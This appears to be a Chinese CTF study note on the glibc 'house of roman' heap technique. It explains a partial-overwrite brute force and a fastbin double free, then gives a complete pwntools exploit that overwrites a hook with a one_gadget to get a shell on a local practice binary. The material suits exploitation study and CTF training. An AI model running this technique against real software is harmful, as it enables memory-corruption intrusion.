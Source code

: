 # house of roman

通过覆盖unsorted bin 的fd的低2字节对glibc上某个结构进行1/16的一个爆破

这里我们主要用的方法就是使用覆盖参数的的方法来把数据的程序地址和libc地址给覆盖掉

是的我们使用一个类似与brop的方法得到一个权限

这个方法主要的好处就是它可以不需要libc的地址来构造一个地址的程序并且这个方法是在后面的io_file中有一个使用但是如果需要使用到onegadget的话那还是要提前泄露libc地址的

这里我们使用的势力程序是使用one_gadget的方式来使用

因此我们还是要使用的libc地址



由于之前说过有一个爆破数据的地址而这个就是和我们是否开来aslr有着关系

如果程序中开启了aslr那么他的程序地址和libc的地址就会随机化使得他的后两个字节中的前一个字节不确定，但是由于我们只用爆破一个字节因此这个字节就有1/16的几率被我们所爆破出来

因此这里的手法就是这样的

而其他的手法就是用doulefree和其他的方法

![image-20250409183150013](./../images/image-20250409183150013.png)

这是刚开始的一个步骤

后面就要进行一个double free让

![image-20250409183238680](./../images/image-20250409183238680.png)

因此我们的代码就是要使用了

```python
from pwn import *


elf = ELF("./pwn")
libc = ELF("./libc.so.6")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
context.timeout = 1
p = process([elf.path])

def add_chunk(index, size):
    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


while True:
    p = process([elf.path])
    try:
        add_chunk(0, 0x200)
        add_chunk(1, 0x200)
        delete_chunk(0)
        show_chunk(0)

        p.recv()
        libc.address = u64(p.recv(6)[-6:].ljust(8, b'\x00')) - 0x39bb78
        info("libc base:" + hex(libc.address))
        delete_chunk(1)

        add_chunk(0, 0x68)
        add_chunk(1, 0x98)
        add_chunk(2, 0x68)

        delete_chunk(1)
        add_chunk(3, 0x28)
        add_chunk(1, 0x68)
        edit_chunk(1, p16(0xbaed))

        delete_chunk(2)
        delete_chunk(0)
        delete_chunk(2)

        add_chunk(0, 0x68)
        edit_chunk(0, p8(0xa0))

        add_chunk(0, 0x68)
        add_chunk(0, 0x68)
        add_chunk(0, 0x68)
        add_chunk(0, 0x68)

        one_gadget = [0x3f3e6, 0x3f43a, 0xd5c07][2] + libc.address
        edit_chunk(0, b'a' * 0x13 + p64(one_gadget))
        add_chunk(0, 0x100)
        p.recvline(timeout=1)

        p.interactive()
    except KeyboardInterrupt:
        exit(0)
    except:
        p.close()


# gdb.attach(p)

```

